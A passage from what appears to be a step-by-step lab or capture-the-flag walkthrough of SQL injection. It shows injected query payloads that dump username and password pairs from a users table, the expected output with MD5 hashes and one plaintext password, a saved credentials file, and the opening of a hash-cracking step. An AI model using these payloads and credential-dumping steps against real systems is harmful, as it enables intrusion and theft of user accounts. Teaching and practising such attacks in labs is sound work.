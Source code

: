 **User 2:**

```bash
--query "(SELECT CONCAT(username,':',password) FROM users LIMIT 1 OFFSET 1)"
```

**Expected Output:**

```
webadmin:e99a18c428cb38d5f260853678922e03
```


***

**User 3:**

```bash
--query "(SELECT CONCAT(username,':',password) FROM users LIMIT 1 OFFSET 2)"
```

**Expected Output:**

```
guest:Password123!
```

✅ Plaintext password found!

***

### Save to File

Create `creds.txt`:

```
admin:5f4dcc3b5aa765d61d8327deb882cf99
webadmin:e99a18c428cb38d5f260853678922e03
guest:Password123!
```


***

## Step 10: Crack Password Hashes

### What You're Doing

Converting MD5 hashes to plaintext passwords.

### Identify Hash Type

```bash
hashid 5f4dcc3b5aa765d61d8327deb882cf99
```

**Expected Output:**

```
Analyzing '5f4dcc3b5aa765d61d8327deb882cf99'
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

